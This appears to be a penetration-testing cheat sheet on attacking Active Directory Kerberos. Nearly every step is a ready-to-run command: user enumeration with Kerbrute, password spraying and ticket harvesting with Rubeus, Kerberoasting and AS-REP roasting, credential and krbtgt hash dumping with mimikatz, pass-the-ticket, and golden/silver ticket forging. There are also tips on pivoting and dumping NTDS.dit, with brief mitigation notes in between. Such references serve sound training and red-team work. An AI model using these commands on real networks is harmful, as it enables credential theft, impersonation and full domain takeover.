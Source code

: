 # Attacking Kerberos

## Attack Privilege Requirements

* Kerbrute Enumeration - No domain access required&#x20;
* Pass the Ticket - Access as a user to the domain required
* Kerberoasting - Access as any user required
* AS-REP Roasting - Access as any user required
* Golden Ticket - Full domain compromise (domain admin) required&#x20;
* Silver Ticket - Service hash required&#x20;
* Skeleton Key - Full domain compromise (domain admin) required

## Enumeration w/ Kerbrute

Brute force user accounts from a domain controller using a supplied wordlist:

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting & Brute-Forcing Tickets w/ Rubeus

Harvest for TGTs every 30 seconds:

```powershell
Rubeus.exe harvest /interval:30
```

## Brute-Forcing / Password-Spraying w/ Rubeus

{% hint style="info" %}
Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file
{% endhint %}

```powershell
Rubeus.exe brute /password:Password1 /noticket
```

This returns .kirbi ticket (TGT)

{% hint style="warning" %}
Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.
{% endhint %}

## Kerberoasting w/ Rubeus & Impacket

### Rubeus

Dump the Kerberos hash of any kerberoastable users:

```powershell
Rubeus.exe kerberoast
```

Now you can take the hash of the service and crack it (Hashcat mode 13100 for TGS-REP)

### Impacket

Dump the hash:

```bash
impacket-GetUserSPNs controller.local/Machine1:Password1 -dc-ip 10.10.2.205 -request
```

### What can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not.&#x20;

If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit.&#x20;

If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users.

### Kerberoasting Mitigation

* &#x20;Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
* &#x20;Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

## AS-REP Roasting w/ Rubeus

Look for vulnerable users and then dump found vulnerable user hashes:

```powershell
Rubeus.exe asreproast
```

Next, crack it with tools such as hashcat

### AS-REP Roasting Mitigations

* Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
* Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

## Pass the Ticket w/ mimikatz

### Prepare Mimikatz & Dump Tickets

Run mimikatz:

```powershell
mimikatz.exe
```

Check privilege:

```powershell
privilege::debug
```

{% hint style="warning" %}
Ensure above command outputs \[output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz
{% endhint %}

Export all of the .kirbi tickets into the directory that you are currently in:

```powershell
sekurlsa::tickets /export
```

### Pass the Ticket

Run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket:

```powershell
kerberos::ptt <ticket>
```

Now, go to **CMD or PowerShell**;

Verifying that we successfully impersonated the ticket by listing our cached tickets:

```powershell
klist
```

Now, you can look at the admin share to verify it one more time:

```powershell
dir \\controller.local\admin$
```

### Pass the Ticket Mitigation

* Don't let your domain admins log onto anything except the domain controller - This is something so simple however a lot of domain admins still log onto low-level computers leaving tickets around that we can use to attack and move laterally with.

## Golden/Silver Ticket Attacks w/ mimikatz

### Dump the krbtgt hash

Run mimikatz:

```powershell
mimikatz.exe
```

Check privilege:

```powershell
privilege::debug
```

Dump the hash as well as the security identifier (SID) needed to create a **Golden Ticket**.&#x20;

```powershell
lsadump::lsa /inject /name:krbtgt
```

{% hint style="info" %}
To create a **silver ticket** you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
{% endhint %}

### Create a Golden/Silver Ticket

Create a golden ticket:

```powershell
Kerberos::golden /user:Administrator /domain:controller.local /sid:[SID] /krbtgt:[ntlm hash of krbgtg] /id:[userID]
```

{% hint style="info" %}
To create a **silver ticket** simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103
{% endhint %}

### Use the Golden/Silver Ticket to access other machines

Open a new elevated command prompt with the given ticket in mimikatz:

```powershell
misc::cmd
```

{% hint style="info" %}
Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from, however, if you took the ticket from krbtgt you have access to the **ENTIRE** network hence the name **Golden Ticket**; however, **Silver Tickets** only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.
{% endhint %}

To test it, again look at shares of other users
